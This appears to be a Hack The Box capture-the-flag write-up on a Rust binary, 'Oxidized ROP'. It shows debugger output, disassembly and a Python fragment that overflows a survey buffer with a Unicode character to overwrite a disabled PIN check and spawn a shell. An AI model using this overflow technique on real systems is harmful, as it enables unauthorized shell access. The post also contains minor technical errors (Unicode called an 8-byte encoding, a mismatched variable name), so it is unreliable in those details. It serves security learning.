 HTB Challenge

Extracting it gets us a folder with a binary, and a `.rs`. This tells us that the binary is compiled in rust, so make sure that any ghidra instance you have is updated to at least ghidra 11, as that version adds rust support for decompilation.

reading through the code, two things immediately jumps out
```rust
fn present_config_panel(pin: &u32) {
    use std::process::{self, Stdio};

    // the pin strength isn't important since pin input is disabled
    if *pin != 123456 {
        println!("Invalid Pin. This incident will be reported.");
        return;
    }

    process::Command::new("/bin/sh")
        .stdin(Stdio::inherit())
        .stdout(Stdio::inherit())
        .output()
        .unwrap();
}
```
```rust
unsafe {
	for c in src.chars() {
		dest_ptr.write(c);
		dest_ptr = dest_ptr.offset(1);
	}
}
```

this is in the `save_data` function. to get to this, we need to get to the `present_survey` function, which is achieved via the menu options, by entering in `1` when prompted.

And our target: `present_config_panel`. this clearly spawns a shell we can use. But we need to pass by a pin requirement first.

lets try this out!

Seems like, if we just enter a normal string into `present_survey`, nothing seems to happen.... however, lets follow along in gbd (I like pwndbg, and to use pwntools+splitmind myself) maybe we can find something interesting.

Rust binaries are a bit complicated to stop and see what it is doing. if you do a `break *main`, you only get the outer binary that is essentially in (compiled) C and doesnt execute the binary itself. The best technique I have found is to see what tab-complete has on offer. if you actually do break at main, you can see rust like syntax, all of which starts with `oxidized_rop::`. So, gdb (or pwndbg, idk at this point) is smart enough to pick up on the rust functions, easy enough, just set breakpoints on them. set one on `main`, and once you found it, on `present_survey` .You need to definitely save those breakpoint names, as its handy to have them later. Go through the process, until a few calls after your input.... Hmm, that looks familar. I used `helloworld`, and in the stack, this popped up!

```gdb
10:0080│     0x7fffd379ba70 —▸ 0x7fffd379bd20 ◂— 0x6500000068 /* 'h' */
```

Wild guess, but lets look at that address with `x/11x`.

```gdb
pwndbg> x/11x 0x7fffd379bd20
0x7fffd379bd20: 0x00000068      0x00000065      0x0000006c      0x0000006c
0x7fffd379bd30: 0x0000006f      0x00000077      0x0000006f      0x00000072
0x7fffd379bd40: 0x0000006c      0x00000064      0x00000000 
```

If you take the time to translate this, its the `helloworld` string I used! and.. in a weird format.

Long story short, this is Unicode. This article can do a good description of [Unicode](https://realpython.com/python-encodings-guide/#enter-unicode), but the TL;DR is that in its standard it incorporates simple ascii codes, but it is a 8 byte encoding specification, that can range from (in hex) 0x0 to 0x10FFFF. This means, you could send it emojis, and it would still work plain and simple. in fact, lets demonstrate this. `hello😀world` is my input 

```gdb
pwndbg> x/12x 0x7ffdab06e8c0
0x7ffdab06e8c0: 0x00000068      0x00000065      0x0000006c      0x0000006c
0x7ffdab06e8d0: 0x0000006f      0x0001f600      0x00000077      0x0000006f
0x7ffdab06e8e0: 0x00000072      0x0000006c      0x00000064      0x00000000
```

and there it is! our emoji 😀 is encoded in Unicode as `U+1F600`. looking at the binary, we have  `0x0001f600`, which matches the position and encoding of our little smiling friend.

Okay, we know the encoding, but that will only come in handy later on. What about exceeding this limit of 200 characters?

Lets feed it 200 characters.

Something that immediately jumps out to me is that the backtrace is overwritten, implying the existence of a rop based exploit. however, this is rust, not C, so this would involve developing a brand new exploit, so no thank you. But this should mean stuff was overwritten! Moving further on, when the program returns to the main function, the stack appears completely overwritten.
```
00:0000│ rsp 0x7ffcc4de7930 ◂— 0x0                                                 01:0008│     0x7ffcc4de7938 ◂— 0x0
02:0010│     0x7ffcc4de7940 ◂— 0x6100000061 /* 'a' */                              03:0018│     0x7ffcc4de7948 ◂— 0x6100000061 /* 'a' */                              04:0020│     0x7ffcc4de7950 ◂— 0x6100000062 /* 'b' */                              05:0028│     0x7ffcc4de7958 ◂— 0x6100000061 /* 'a' */                              
...
```
This we can work with! Also, proceeding down the program, we seem to stumble upon the config_panel, even though its technically disabled in the source code, as I recall. Alright, I guess! Lets look back at the source code, specifically where the options are selected

```rust
match get_option().expect("Invalid Option") {
	MenuOption::Survey => present_survey(&mut feedback),
	MenuOption::ConfigPanel => {
		if PIN_ENTRY_ENABLED {
			let mut input = String::new();
			print!("Enter configuration PIN: ");
			io::stdout().flush().unwrap();
			io::stdin().read_line(&mut input).unwrap();
			login_pin = input.parse().expect("Invalid Pin");
		} else {
			println!("\nConfig panel login has been disabled by the administrator.");
		}

		present_config_panel(&login_pin);
	}
	MenuOption::Exit => break,
}
```

`present_config_panel` seems to be selected, even when its disabled. I dont think thers a way to input the right pin, but since our buffer has been overwritten with our data, we might not need to input a pin directly.

Lets take a second to look at the function in `ghidra`. Ghidra over the years has gotten better at handling rust, but its still somewhat of a mess to get to the actual `present_config_panel`. The function does not appear on the functions list, and the only way to actually find the function is to go to the namespace (who does that for functions?) and know to select the `o` folder, and look at the `oxidized_rop` object. You can do that, or follow the rust calls from `main` in the program, which is how I did this before discovering the namespace trick.

Anyways, in both the source code, and the interpreted code from ghidra, it compares the pin to the value 123456. In ghidra, however, its directly compared to a value on the stack, very soon after the call compared to some C functions.
```Ghidra
			 oxidized_rop::present_config_panel                           
0010c890 48 81 ec        SUB        RSP,0x1a8
		 a8 01 00 00
0010c897 81 3f 40        CMP        dword ptr [RDI],0x1e240
		 e2 01 00
0010c89d 75 2c           JNZ        [return subroutine]
```

However, its on the stack, which we have control over already! looking at the `rdi` register in gdb once we hit `present_config_panel` with `x/14x` shows us that, yes, indeed, we can hit this value.

```gdb
pwndbg> x/14x $rdi
0x7ffc20300528: 0x00000061      0x01000062      0x00000062      0x00000061
0x7ffc20300538: 0x00000061      0x00000062      0x00000063      0x00000061
0x7ffc20300548: 0x00000000      0x00000000      0x00000000      0x01000002 
0x7ffc20300558: 0x2eb6c880      0x000055da 
```

With a bit of trial and error, and assistance with cyclical input, we can reach to the required offset. What the offset is, that is an exercise left up to the reader. heres a hint, pwndbg and others have cyclical strings that will help you identify the position you are at with the context you can give it.

Once we get the right offset, we can see a difference in the output in the same function.
```gdb
pwndbg> x/10x $rdi
0x7ffef6e2bf68: 0x00000061      0x01ffffff      0xc0d55b30      0x00005564
0x7ffef6e2bf78: 0x00000001      0x00000000      0xf662e000      0x00007ffe 
0x7ffef6e2bf88: 0x00000000      0x00000000 
```

The goal is to get the value at `rdi` to equal `123456`, or `0x1e240` according to Ghidra. Recalling earlier that the input is processed in Unicode, we can actually give it a Unicode character, and that will grant us a shell! This cannot be done manually (easily), so lets use python. to represent a character in Unicode, you can use `\u` for any four hex amount, but for values beyond that, you need to use `\U` which takes in 8 hex  digits with a value of anything up to the max for Unicode which is `10FFFF`.

```python
char = '\U0001E240'
offset = exercise_for_the_reader
input = b'A'*offset+bytes(char2,"utf-8")
```

and you can either feed this in with pwntools, or copy paste it directly in. doing this.....

```zsh
$ ./attackv2.py
[*] '/home/kali/htb/challenge/pwn_oxidizedrop/pwn_oxidized_rop/oxidized-rop'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/kali/htb/challenge/pwn_oxidizedrop/pwn_oxidized_rop/oxidized-rop': pid 2537365
[*] Switching to interactive mode
 
Config panel login has been disabled by the administrator.
$ whoami
kali
```

doing this, I have a clean escalation to shell. Now deploy this on the remote target and....

https://www.hackthebox.com/achievement/challenge/158887/458